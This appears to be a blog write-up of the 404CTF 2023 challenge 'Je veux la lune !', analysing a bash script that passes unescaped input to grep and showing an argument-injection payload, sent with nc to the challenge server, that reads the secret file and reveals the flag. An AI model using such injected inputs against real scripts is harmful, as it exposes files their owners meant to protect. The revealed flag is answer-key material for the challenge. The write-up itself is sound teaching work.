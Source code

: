 ```yaml
---
layout: post
title: 404CTF 2023 | Je veux la lune !
image: /assets/images/404ctf/image-je-veux-la-lune.png
date: 2023-06-06 23:40:00
categories: [404ctf, pwn]
---
```


This challenge was part of the [404CTF 2023](https://www.404ctf.fr/), organized by the General Directorate for External Security (DGSE) and Télécom SudParis.

# Challenge Description

![Challenge Description]({{site.baseurl}}/assets/images/404ctf/description-je-veux-la-lune.png)

>> Caligula est assis seul devant une table du café. Il y a devant lui 5 tasses vides empilées, et une 6e qu'il sirote lentement, ainsi qu'un ordinateur qu'il regarde fixement. Des cernes profonds creusent son visage. Il lève des yeux étonnamment vifs vers vous alors que vous vous approchez de lui.
>>
>> Il tend sa main vers son écran d'un air désespéré et s'exclame « Je ne peux plus vivre comme ça, ce monde n'est pas supportable. J'ai besoin de quelque chose de différent. Quelque chose d'impossible, peut-être le bonheur, ou peut-être la lune... Et je sens que ma quête s'approche de sa fin. »
>>
>> Vous regardez son écran, et voyez qu'il tente d'accéder sans succès à un fichier.
>>
>> « Vous pensez que je suis fou, mais je n'ai jamais pensé aussi clairement ! » Un calcul rapide vous informe qu'il a probablement consommé plus d'un litre de café, et il n'est que 13h. Vous acquiescez lentement. Il reprend « Regardez, Hélicon m'a enfin rapporté la lune, mais il ne m'a pas donné l'accès... le fourbe. Je brûlerai un quart de sa fortune plus tard pour le punir. Aidez-moi ! »
>>
>> Entre peur et pitié, vous décidez de l'aider à obtenir le contenu du fichier secret.
>>
>> chlmine#0024

# Analysis

The given `donne_moi_la_lune.sh` file contains a simple script :

```sh
#!/bin/bash

Caligula=Caius

listePersonnes="Cherea Caesonia Scipion Senectus Lepidus Caligula Caius
 Drusilla"

echo "Bonjour Caligula, ceci est un message de Hélicon. Je sais que
 les actionnaires de ton entreprise veulent se débarrasser de toi, je
 me suis donc dépêché de t'obtenir la lune, elle est juste là dans le
 fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia,
 Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?"
read personne
eval "grep -wie ^$personne informations.txt"

while true; do
    echo "
De qui d'autre tu veux que je te parle ?"
    read personne

    if [ -n $personne ] && [ $personne = "stop" ] ; then
    exit
    fi

    bob=$(grep -wie ^$personne informations.txt)
    
    if [ -z "$bob" ]; then
        echo "Je n'ai pas compris de qui tu parlais. Dis-moi stop si
         tu veux que je m'arrête, et envoie l'un des noms que j'ai
         cités si tu veux des informations."
    else
        echo $bob
    fi  

done
```

According to the prompt, it looks like the goal is to get the content of the file `lune.txt`. To do so, we can see in the script that our input is not escaped and is directly passed to `grep`, allowing code injection. We are then able to recover the flag with a simple payload like `404CTF lune.txt` (note the space, which makes bash interpret the next string as another argument), which will result in the following `grep` command, effectively showing all lines beginning with `404CTF` on both files :

```sh
grep -wie ^404CTF lune.txt informations.txt
```

# Running on the remote server

Let's try this payload !
```
& echo "404CTF lune.txt" | nc challenges.404ctf.fr 31215

Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?

lune.txt:404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}
```

> ✅ Flag : `404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}`